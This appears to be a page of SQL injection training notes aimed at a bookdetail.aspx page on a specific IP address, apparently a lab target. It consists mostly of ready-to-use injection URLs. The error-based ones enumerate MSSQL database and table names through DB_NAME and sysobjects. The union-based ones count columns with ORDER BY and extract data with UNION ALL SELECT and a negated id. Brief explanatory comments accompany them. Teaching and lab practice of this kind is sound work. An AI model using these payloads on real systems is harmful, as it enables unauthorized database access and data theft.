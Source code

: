
- Another quick way to test for SQLI is to remove the paramter value

 
#############################
# Error-Based SQL Injection #
#############################
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(0))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(1))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(2))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(3))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(4))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (SELECT DB_NAME(N))-- 	NOTE: "N" - just means to keep going until you run out of databases
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85))--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85) and name>'bookmaster')--
http://54.213.100.93/bookdetail.aspx?id=2 or 1 in (select top 1 name from sysobjects where xtype=char(85) and name>'sysdiagrams')--




#############################
# Union-Based SQL Injection #
#############################
http://54.213.100.93/bookdetail.aspx?id=2 order by 100--
http://54.213.100.93/bookdetail.aspx?id=2 order by 50--
http://54.213.100.93/bookdetail.aspx?id=2 order by 25--
http://54.213.100.93/bookdetail.aspx?id=2 order by 10--
http://54.213.100.93/bookdetail.aspx?id=2 order by 5--
http://54.213.100.93/bookdetail.aspx?id=2 order by 6--
http://54.213.100.93/bookdetail.aspx?id=2 order by 7--
http://54.213.100.93/bookdetail.aspx?id=2 order by 8--
http://54.213.100.93/bookdetail.aspx?id=2 order by 9--
http://54.213.100.93/bookdetail.aspx?id=2 union all select 1,2,3,4,5,6,7,8,9--

	We are using a union select statement because we are joining the developer's query with one of our own.
	Reference: 
	http://www.techonthenet.com/sql/union.php
	The SQL UNION operator is used to combine the result sets of 2 or more SELECT statements. 
	It removes duplicate rows between the various SELECT statements.

	Each SELECT statement within the UNION must have the same number of fields in the result sets with similar data types.

http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,2,3,4,5,6,7,8,9--

	Negating the paramter value (changing the id=2 to id=-2) will force the pages that will echo back data to be displayed.
